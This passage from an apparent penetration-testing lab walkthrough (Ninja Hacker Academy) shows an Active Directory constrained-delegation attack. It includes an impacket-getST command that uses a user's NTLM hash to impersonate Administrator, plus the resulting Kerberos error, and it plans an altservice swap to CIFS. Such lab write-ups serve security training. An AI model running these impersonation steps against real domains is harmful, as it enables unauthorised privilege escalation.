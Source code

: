 and there is! Bloodhound shows me now that there is a path consisting of multiple steps from Frank to the `DC-AC`. Let's try to get a CIFS ticket again 

```shell
$ impacket-getST -spn 'cifs/share.academy.ninja.lan' -impersonate Administrator -dc-ip 'dc-ac.academy.ninja.lan' "academy.ninja.lan"/"frank" -hashes :d4fad93561dee253398d5891e991a6fb                     
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user frank or initial TGT not forwardable
```

Unfortunately it's not THAT simple; and to be fair I would have been a little disapointed if it was. However like in a bunch of previous steps `Impacket` to the rescue with the tool `findDelegation`. Let's see what can be delegated.

![Ninja Hacker Academy - Constraint Delegation](../assets/img/nha-guide/SHARE01-Constrained.png)

This is interesting just like the `GenericAll` on the container, I have not yet this specific `Constrained Delegation with Protocol Transition` on the `eventlog/share`. However this works basically the same as any Constrained Delegation we can leverage the `msdsspn` value; which in this case is the `eventlog/share` and specify a `altservice` service. So let's try to create a ticket but this time with CIFS as `altservice`. 

![Ninja Hacker Academy - Constraint Delegation](../assets/img/nha-guide/SHARE01-Constrained2.png)
